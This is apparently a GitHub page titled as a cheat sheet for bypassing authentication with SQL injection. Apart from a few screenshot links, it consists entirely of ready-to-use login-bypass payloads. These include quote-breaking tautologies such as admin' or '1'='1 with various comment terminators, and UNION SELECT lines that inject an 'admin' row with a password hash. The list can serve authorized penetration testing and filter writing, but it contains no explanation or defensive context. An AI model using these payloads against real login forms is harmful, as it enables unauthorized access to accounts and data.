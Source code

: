 # SQL Injection Authentication Bypass (Cheat Sheet)


![](/screenshot/03.jpg)


   ![](/screenshot/02.png)


``` or 1=1 ```

``` or 1=1-- ``` 

``` or 1=1# ```

``` or 1=1/* ```

``` admin' -- ```

``` admin' # ``` 

``` admin'/* ``` 

``` admin' or '1'='1 ``` 

``` admin' or '1'='1'-- ```

``` admin' or '1'='1'# ``` 

``` admin' or '1'='1'/* ``` 

``` admin'or 1=1 or ''=' ```

``` admin' or 1=1 ```

``` admin' or 1=1-- ```

``` admin' or 1=1# ```

``` admin' or 1=1/* ```

``` admin') or ('1'='1 ```

``` admin') or ('1'='1'-- ```

``` admin') or ('1'='1'# ```

``` admin') or ('1'='1'/* ```

``` admin') or '1'='1 ```

``` admin') or '1'='1'-- ```

``` admin') or '1'='1'# ```

``` admin') or '1'='1'/* ```

``` 1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055 ```

``` admin" -- ```

``` admin" # ```

``` admin"/* ```

``` admin" or "1"="1 ```

``` admin" or "1"="1"-- ```

``` admin" or "1"="1"# ```

``` admin" or "1"="1"/* ```

``` admin"or 1=1 or ""=" ```

``` admin" or 1=1 ```

``` admin" or 1=1-- ```

``` admin" or 1=1# ```

``` admin" or 1=1/* ```

``` admin") or ("1"="1 ```

``` admin") or ("1"="1"-- ```

``` admin") or ("1"="1"# ```

``` admin") or ("1"="1"/* ```

``` admin") or "1"="1 ```

``` admin") or "1"="1"-- ```

``` admin") or "1"="1"# ```

``` admin") or "1"="1"/* ```

``` 1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055 ```
